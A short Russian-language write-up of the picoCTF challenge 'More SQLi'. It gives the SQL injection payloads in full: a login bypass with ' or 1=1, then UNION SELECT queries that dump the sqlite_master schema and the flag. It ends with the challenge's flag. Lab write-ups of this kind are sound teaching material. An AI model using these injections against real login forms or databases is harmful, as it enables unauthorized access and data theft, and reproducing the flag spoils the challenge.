

**Задание More SQLi**

Так как базовые SQLI не работают, но мы знаем, что этот сайт использует SQLite, то можем попробовать отправить запрос для доступа к DB (рис 1)\
\'or 1=1;\-- пишем и в логин и в пароль и получаем доступ

Теперь вводим запрос 123\' UNION SELECT name, sql, null from sqlite_master;\-- для просмотра содерживого DB (рис 2)

Теперь видим, где находится флаг. Поэтому прописываем путь до него 123\' UNION SELECT flag, null, null from more_table;\-- (рис 3)

**ОТВЕТ: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}**

